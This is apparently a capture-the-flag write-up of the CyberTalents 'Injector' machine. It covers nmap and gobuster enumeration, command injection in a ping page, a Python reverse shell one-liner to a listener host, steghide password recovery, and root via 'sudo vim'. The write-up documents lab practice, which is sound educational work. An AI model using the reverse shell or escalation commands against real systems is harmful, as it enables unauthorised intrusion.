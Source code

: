 ```yaml
---
title: "CyberTalents Injector Machine Writeup"
date: "2020-12-13"
layout: single
---
```

![logo](https://k.top4top.io/p_18081y31k1.png)

Injector machine is an easy box with some good ideas.

By the way, I couldn't solve the machine through the vpn because of some problems, but I solved the machine through it's public IP which is 3.127.234.70

# Methodology
* Enumeration
* Exploiting Command Injection Vulnerability
* Privilege Escalation

>so first i'll do Nmap scan to find out which services running in this machine

# []()Nmap Scan :
```ruby
# Nmap 7.91 scan initiated Sun Dec 13 16:14:30 2020 as: nmap -sV -sC -oN nmap 3.127.234.70
Nmap scan report for ec2-3-127-234-70.eu-central-1.compute.amazonaws.com (3.127.234.70)
Host is up (0.089s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:34:1a:fd:db:03:c5:81:05:b0:64:cf:70:ad:63:3e (RSA)
|   256 04:f2:79:9a:04:fd:0e:78:ac:df:12:50:55:4d:a2:c6 (ECDSA)
|_  256 a8:67:8f:0c:e9:b1:3d:53:b4:9d:fe:fd:93:af:e6:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Well now we have 2 open ports which is :

* 22/tcp > ssh > OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux;protocol 2.0)
* 80/tcp > http > Apache httpd 2.4.29 ((Ubuntu))

> Now i'll check the webserver

![webserver](https://f.top4top.io/p_1808i2h201.png)

it's Apache2 ubuntu default page, nothing is interesting here so let's do directory listing using gobuster.

```python
┌─[kali@kali]─[~]
└──╼ $gobuster dir -u http://3.127.234.70/ -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://3.127.234.70/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/13 16:50:56 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
===============================================================
```
> we got /secret directory so let's open it!

![dir](https://c.top4top.io/p_1808t0ppg1.png)

nothing is interesting again so maybe let's do directory listing again!

```python
┌─[kali@kali]─[~]
└──╼ $gobuster dir -u http://3.127.234.70/secret/ -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://3.127.234.70/secret/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/13 17:43:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/company (Status: 301)
/admin.html (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/root (Status: 301)
/test (Status: 301)
/tools (Status: 301)
===============================================================
```
now we got /company, /admin.html, /root, /test and /tools!

> btw i checked company, admin.html, root, test directories and there's nothing intersting there.

then i opened tools directory and i found this

![dir](https://j.top4top.io/p_1808si31p1.png)

also i opened ping.php and i found this page!

![pingo](https://c.top4top.io/p_18087gump1.png)

> It's a pinging script vulnerable to Command Injection vulnerability

while it's a command injection vulnerability i manged to get a reverse shell and spwaning a tty shell using this one line python3 code

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.x.x.x",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

and bingo! we to poped a shell and now we're in www-data.

![shell](https://k.top4top.io/p_1808cr6621.png)


# Privilege Escalation :

> while playing and searching i found an image called TrollFace.jpg in /var/www directory and i downloaded it to my machine using the netcat method 

![trollface](https://j.top4top.io/p_1808qvhkr1.png)

> i used strings and stegosuite and got nothing useful so i tried to extract it using steghide and i managed to get a password without passphrase!

![stegohelpsalot](https://d.top4top.io/p_1808cr6vd1.png)

and i came back to the machine to read /etc/passwd and i found a user called alex and i switched to this user using the password that we got from TrollFace image

![alex](https://c.top4top.io/p_1808ucm1c1.png)

>now i used linux-exploit-suggester to search for possible exploits but no exploits are available for this machine kernel version..

so i typed sudo -l to see if there's anything running with root permissions and i found vim working with root permissions so i used this command to pop a r00t shell
```bash
sudo vim -c ' : ! /bin/sh ' /usr/bin/vim
```
![vimonfire](https://l.top4top.io/p_1808zkh611.png)

and we got root flag.

![r00t!](https://j.top4top.io/p_1808volbp1.png)

for any questions dm me on facebook.

* cheers!
